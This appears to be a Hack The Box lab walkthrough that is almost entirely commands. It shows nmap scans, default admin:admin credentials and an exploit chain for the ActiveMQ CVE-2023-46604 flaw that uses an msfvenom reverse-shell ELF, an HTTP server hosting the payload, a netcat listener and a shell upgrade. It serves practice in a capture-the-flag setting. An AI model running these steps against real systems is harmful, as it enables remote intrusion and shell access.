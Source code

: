 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.243
nmap -p- -T5 10.10.11.243
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1186881c-78c2-46f8-a554-1ba8d6634117)

![image](https://github.com/regarmulia/HTB/assets/33616880/2611c10e-95d7-41e1-8c74-6fcf7f6f8844)

```
10.10.11.243/
admin:admin
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4bb5ac1e-d62a-46cd-822f-3ac7bee4abc8)

![image](https://github.com/regarmulia/HTB/assets/33616880/cc45491e-7042-4a98-8622-5722631b40a6)

![image](https://github.com/regarmulia/HTB/assets/33616880/67f7a55f-3471-4f52-a062-46c83d247792)

```
activemq broker 5.15.15 exploit
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0c0635b0-741d-46c7-ad00-e4a8c7a45c99)

![image](https://github.com/regarmulia/HTB/assets/33616880/bb33149d-66eb-4c81-904e-8c31d3b0be2c)


```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f elf -o test.elf
python3 -m http.server 8001
nc -lvvp 4444
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.12:8001/poc-linux.xml
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/02a6e7d6-a3cd-486c-9719-80fa5efa2b77)

![image](https://github.com/regarmulia/HTB/assets/33616880/497cfa98-5b46-4748-bb90-3504ed9869d3)

![image](https://github.com/regarmulia/HTB/assets/33616880/b1fd204c-a6df-4c0c-af35-e24df116c0c3)


```
sudo -l
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b859f21c-8787-40ff-af31-430a25fb5886)
